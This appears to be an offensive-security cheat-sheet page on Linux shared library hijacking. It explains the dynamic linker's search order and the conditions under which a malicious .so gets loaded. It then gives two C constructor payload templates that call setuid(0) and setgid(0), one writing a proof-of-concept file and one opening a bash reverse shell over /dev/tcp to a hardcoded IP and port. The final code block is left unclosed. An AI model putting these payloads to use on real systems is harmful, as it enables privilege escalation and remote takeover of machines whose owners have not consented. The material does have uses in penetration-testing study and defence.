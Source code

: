 
# Shared Libraries Hijacking

## Overview
Shared library hijacking in Linux is a form of attack that exploits the dynamic linking mechanism to load malicious code into a running application. Applications often depend on shared libraries (`.so` files) to provide functionality, but if an attacker can manipulate which libraries the application loads, they can execute arbitrary code with the same permissions as the application.

This attack is possible because the dynamic linker searches for shared libraries in specific locations, following a predefined order. By placing a malicious library in one of these locations, an attacker can "hijack" the loading process and inject their payload.

The attack can be successful if:

- The target application loads libraries from insecure directories (e.g., writable by users).
- The attacker can influence environment variables like `LD_LIBRARY_PATH`.
- The target application does not use full paths for libraries in its configuration.

There are several locations where Linux searches for shared libraries:
- Directories listed in the application's RPATH6 value.
- Directories specified in the LD_LIBRARY_PATH environment variable.
- Directories listed in the application's RUNPATH7 value.
- Directories specified in `/etc/ld.so.conf.8`
- System library directories: `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`, `/usr/local/lib`, `/usr/local/lib64`, and potentially others.

## Payloads

The following C payload demonstrates how shared library hijacking can be used to escalate privileges and execute arbitrary commands. The payload attempts to escalate privileges to root (`setuid(0)` and `setgid(0)`) and creates a file `/tmp/haxso.txt` as proof of concept.

```c
// Simple test payload
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void Warhead() __attribute__((constructor));
//Symbols go here

void Warhead() {
    setuid(0);
    setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");
    system("touch /tmp/haxso.txt");
}
```
Additionally, the template below can be used to obtain a reverse shell.
```c
// Reverse Shell
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void Warhead() __attribute__((constructor));
//Symbols go here

void Warhead() {
    setuid(0);
    setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");
    system("bash -c 'sh -i >& /dev/tcp/192.168.45.216/9001 0>&1'");
```